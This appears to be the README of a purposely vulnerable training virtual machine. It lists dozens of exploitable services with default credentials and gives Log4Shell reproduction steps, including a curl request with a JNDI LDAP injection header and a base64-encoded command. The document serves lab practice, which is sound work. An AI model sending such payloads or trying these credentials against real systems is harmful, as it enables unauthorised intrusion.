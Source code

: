 <img width="747" alt="supervuln3" src="https://user-images.githubusercontent.com/4623055/198848934-8e05569f-8549-4a58-afbb-5c1b3025f0de.png">

By @rodsoto
www.rodsoto.net 
# SuperVuln v1
#super:above, beyond 
#vulnus: wound 
# Super vulnerable machine
#exploitation, target practice, makiwara, tamashii wari, training virtual machine.  
#this virtual machine is meant to be in HOST ONLY setting and ON PREM USE. DO NOT operate in production or expose to the internet.

All Vulns  --- (DO NOT UPDATE THIS MACHINE YOU WILL BREAK IT)


1) Phpmyadmin 4.8.0 RCE/LFI --> localhost/phpmyadmin480 (remember for web servers you need apache2 and mysql running read note below to bring them up first) root:toor 
2) Rlogin
3) SAMBA Anonymous - ETERNAL RED CVE-2017-7494 (`sudo /usr/local/samba/sbin/smbd -D, sudo /usr/local/samba/sbin/nmbd -D`)
4) VsFTPD 2.3.4 RCE | `sudo /usr/local/sbin/vsftpd`  - port 21
5) SSH - port 22
6) MySQL - port 3306
7) Chargen - port 19
8) QOTD - port 17
9) Daytime - port 13
10) Telnet - port 23
11) Tomcat 8.5.2 - port 8080 `/home/research/Desktop/apache-tomcat-8.5.2 | sudo bash /bin/startup.sh`
12) Struts 2.0.14 - port 8080 
13) MongoDB - port 27017 | `sudo ./mongod --dbpath data/db/ | from /home/research/Desktop/supervuln-files/`
14) Jenkins 2.31 --> research/Desktop/supervuln/files/ --> `java -jar jenkins.war ` (admin,admin --localhost 8080)
15) Redis - cd `/home/reserach/Desktop/redis-4.0.2/ ./src/redis-server ../redis.conf`
16) Patient Scheduler -- localhost/scheduler admin admin123 (XSS,SQLi, RFI)
17) Drupal 8.5.11 -- localhost/drupal8511 root toor RCE (https://exploit-db.com/exploits/46510)
18) Log4J (1) - /home/research/Desktop/log4j-shell-poc `sudo docker build -t log4j-shell-poc . then sudo docker run --network host log4j-shell-poc`
19) Log4J (2) 
FROM /home/research/Desktop/log4shell-vulnerable-app/ `docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`
then
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888`
then. will execute 'touch /tmp/pwned'
`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'` (you can play with payloads) https://github.com/christophetd/log4shell-vulnerable-app
20) echo - port 7
21) time - port 37
22) discard - port 9
23) QDPM 9.1 https://localhost/qdpm/index.php user:admin@localhost password:toor (remember for web servers you need apache2 and mysql running read note below to bring them up first)
24) RiteCMS http://localhost/ritecms/admin.php user:admin password:admin (this is SQLite) RFI
25) Drupal 8.5 -- localhost/drupal85 root toor - DRUPALGEDDON2
26) localhost/sqli.php -- SQL Injection 
27) Wembin 1996 -- RCE localhost:10000

Note: from /opt/lampp run -> `sudo ./manager-linux-x64.run` #to get Xammp GUI

PLUS - API Vulnerable frameworks (See readme in Desktop) 

crAPI  
PIXI. 
OWASP Juice Shop. 
Damn Vulnerable GraphQL. 

Bonus stuff to practice (Stego, WAV, Pcaps, BoF, Win7 SAM hashes) 

Download here. 
https://drive.google.com/file/d/1_AbR5R96smaWpHdlqUJNT1Q4obtwXZgp/view?usp=share_link
root - toor   
research - toor    

Import .OVA use Vmware Player or Fusion or Virtual box   
See links below for guidance   
https://docs.vmware.com/en/VMware-Workstation-Pro/16.0/com.vmware.ws.using.doc/GUID-DDCBE9C0-0EC9-4D09-8042-18436DA62F7A.html   
https://docs.oracle.com/cd/E26217_01/E26796/html/qs-import-vm.html. 


